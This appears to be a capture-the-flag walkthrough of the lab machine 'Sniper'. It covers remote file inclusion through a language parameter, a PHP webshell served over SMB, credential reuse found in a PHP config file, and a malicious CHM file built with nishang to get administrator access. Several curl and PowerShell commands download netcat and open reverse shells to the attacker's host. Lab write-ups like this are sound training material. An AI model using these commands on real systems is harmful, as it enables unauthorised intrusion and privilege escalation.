 # Sniper

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.229.6
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 09:19 EDT
Nmap scan report for 10.129.229.6
Host is up (0.011s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49667/tcp open  unknown
```

### Sniper Co

Port 80 is hosting a corporate website:

<figure><img src="../../../.gitbook/assets/image (178).png" alt=""><figcaption></figcaption></figure>

I clicked all the services, and found that Our Services works and brings us to `/blog/index.php`.&#x20;

<figure><img src="../../../.gitbook/assets/image (182).png" alt=""><figcaption></figcaption></figure>

When changing languages, I noticed this:

<figure><img src="../../../.gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>

This looks vulnerable to LFI, and since this is a Windows machine, we can try to use `\\` to access our machien via SMB. I hosted a `cmd.php` webshell using `smbserver.py`. Then, we can try to access it via `curl`.

```bash
curl 'http://10.129.229.6/blog/?lang=\\10.10.14.13\share\cmd.php&cmd=whoami'
<TRUNCATED>
nt authority\iusr
```

This works! We can now get a reverse shell using `nc.exe`.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">curl 'http://10.129.229.6/blog/?lang=\\10.10.14.13\share\cmd.php&#x26;cmd=powershell+-c+wget+10.10.14.13/nc64.exe+-Outfile+C:\windows\tasks\nc.exe'

<strong>curl 'http://10.129.229.6/blog/?lang=\\10.10.14.13\share\cmd.php&#x26;cmd=C:\windows\tasks\nc.exe+-e+cmd.exe+10.10.14.13+4444'
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (158).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Chris Credentials

Within the files for the website, we can see a `user` directory:

```
C:\inetpub\wwwroot>dir
Volume in drive C has no label.
Volume Serial Number is AE98-73A8

Directory of C:\inetpub\wwwroot

04/11/2019  10:51 AM    <DIR>          .
04/11/2019  10:51 AM    <DIR>          ..
04/11/2019  05:23 AM    <DIR>          blog
04/11/2019  05:23 AM    <DIR>          css
04/11/2019  05:23 AM    <DIR>          images
04/11/2019  05:22 PM             2,635 index.php
04/11/2019  05:23 AM    <DIR>          js
04/11/2019  05:23 AM    <DIR>          scss
10/01/2019  08:44 AM    <DIR>          user
               1 File(s)          2,635 bytes
               8 Dir(s)   2,415,136,768 bytes free
```

Within that, there is a `db.php` file that contains credentials:

```php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

This might be the credentials for the user, `Chris`. When we check the user's permissions, we se that he's part of the Remote Management Use group, meaning that we can use this credentials using Remote Powershell to get RCE.

```
C:\inetpub\wwwroot\user>net user chris
User name                    Chris
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            4/11/2019 6:53:37 AM
Password expires             Never
Password changeable      4/11/2019 6:53:37 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   8/15/2019 12:23:43 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*Users                
Global Group memberships     *None                 
The command completed successfully.
```

This can be done like so:

```powershell
$pass = ConvertTo-SecureString "36mEAhz/B8xQ~2VM" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("sniper\chris", $pass)
Invoke-Command -Computer localhost -ScriptBlock { whoami } -Credential $cred
# for shell
Invoke-Command -Computer localhost -ScriptBlock { \\10.10.14.13\share\nc64.exe -e cmd.exe 10.10.14.13 4444 } -Credential $cred
```

<figure><img src="../../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

Now, we can execute `nc.exe` file to get another reverse shell and grab the user file.

<figure><img src="../../../.gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>

### CHM

As the user, we can view `C:\Docs`. Inside, there are some files, including a note.

{% code overflow="wrap" %}
```
C:\Docs>type note.txt
Hi Chris,
        Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.
```
{% endcode %}

Within the user's Downloads file, we find a `chm` file.

```
C:\Users\Chris\Downloads>ir
dir
 Volume in drive C has no label.
 Volume Serial Number is AE98-73A8

 Directory of C:\Users\Chris\Downloads

04/11/2019  08:36 AM    <DIR>          .
04/11/2019  08:36 AM    <DIR>          ..
04/11/2019  08:36 AM            10,462 instructions.chm
               1 File(s)         10,462 bytes
               2 Dir(s)   2,421,116,928 bytes free
```

We can transfer this back to our machine via SMB for further analysis. This is a Windows file, so we can open it on our Windows machine.

<figure><img src="../../../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>

Interesting. CHM is exploitable by us, and we can use `nishang` to do so. All we need to do is use `Out-CHM.ps1` to create a CHM file with a payload.

```powershell
# on Windows
Out-CHM -Payload "\\10.10.14.13\share\nc.exe -e cmd.exe 10.10.14.13 4444" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```

This would generate another CHM file, of which we just need to download it to the machine and rename it as `instructions.chm` and place it within `C:\Docs`. Then, we just need to wait a bit and our listener port will catch a reverse shell as the administrator.&#x20;

```
$ nc -lnvp 4444                        
listening on [any] 4444 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.229.6] 49675
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\blog>whoami
whoami
sniper\administrator
```
